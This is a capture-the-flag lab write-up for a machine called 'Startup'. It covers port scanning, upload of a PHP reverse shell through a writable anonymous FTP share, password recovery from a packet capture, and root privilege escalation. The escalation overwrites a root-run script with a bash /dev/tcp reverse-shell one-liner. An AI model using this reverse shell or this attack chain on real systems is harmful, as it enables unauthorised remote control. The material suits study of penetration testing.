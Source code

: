 
# Startup

IP - 10.10.149.162

## Scanning and Enumeration

nmap:
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.6.41.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|*End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|*-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|*http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|*  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Maintenance
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X
```


dirsearch:
```
[14:21:55] 403 -   277B - /.php

[14:21:55] 403 -   277B - /.php3

[14:22:22] 301 -   312B - /files  ->  http://10.10.194.20/files/

[14:22:22] 200 -    1KB - /files/

[14:22:25] 200 -   808B - /index.html
```


Clue found in http://10.10.149.162/files/notice.txt


![image](https://github.com/user-attachments/assets/62099454-1c6d-49c7-ad40-118f62f32e98)



FTP port is accessible using "anonymous" username.


![image](https://github.com/user-attachments/assets/a262527a-6217-4034-a30b-4cacf208489d)



## PHP Reverse Shell


ftp directory have full permissions enabled which allowed me to transfer from my machine to the ftp server a php reverse shell file and execute it while having netcat listener in the background.


![image](https://github.com/user-attachments/assets/b0745e84-34c8-4568-a1a6-0169359f534b)


Successfully got a reverse shell!


![image](https://github.com/user-attachments/assets/e3d2aa87-1bb0-4c50-b9c2-60402b0a7ff6)


Found answer to the first question:
```
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```


## Finding User.txt File


- Found a directory named "incidents" containing a .pcapng file, which stores captured network traffic (e.g., from Wireshark or tcpdump).
- Since the file wasn’t readable on the target machine, I transferred it to my local machine by running ``` python3 -m http.server 8000 ``` on the target and ``` wget http://10.10.215.35:8000/suspicious.pcapng ``` on my machine.
- Used ``` strings suspicious.pcapng ``` to read the file and found repeated connection attempts using the password: c4ntg3t3n0ughsp1c3.


![image](https://github.com/user-attachments/assets/066f499d-634e-4a0e-9d5c-6220f3437f57)


- Used this password to connect to user lennie and successfully logged in and found user.txt file.


## Privilege Escalation

- In lennie's PC I found those files:
```
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 May 29 21:10 startup_list.txt
-rwx------ 1 lennie lennie    25 Nov 12  2020 print.sh
```
```
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

planner.sh runs two commands:

1). It saves the content of the $LIST variable to /home/lennie/scripts/startup_list.txt.

2). Then it runs the /etc/print.sh script.

I modified /etc/print.sh to run a reverse shell as root when planner.sh is executed, giving me root access. 
```
echo '#!/bin/bash
bash -i >& /dev/tcp/10.6.41.41/4444 0>&1' > /etc/print.sh
```



